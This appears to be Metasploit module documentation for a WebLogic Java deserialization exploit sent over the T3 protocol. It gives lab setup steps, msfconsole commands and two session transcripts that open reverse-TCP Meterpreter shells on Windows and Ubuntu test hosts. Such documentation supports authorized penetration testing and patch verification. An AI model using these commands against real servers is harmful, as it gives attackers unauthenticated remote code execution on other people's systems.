 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized `BadAttributeValueExpException` object
  over the T3 protocol to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).

### Installation

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using jdk8u202 and [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).

  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).

  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

- [ ] Install the application
- [ ] Start msfconsole
- [ ] Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
- [ ] Do: ```set RHOSTS <ip>```
- [ ] Do: ```run```
- [ ] You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Ubuntu 18.04 Linux

  ```
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
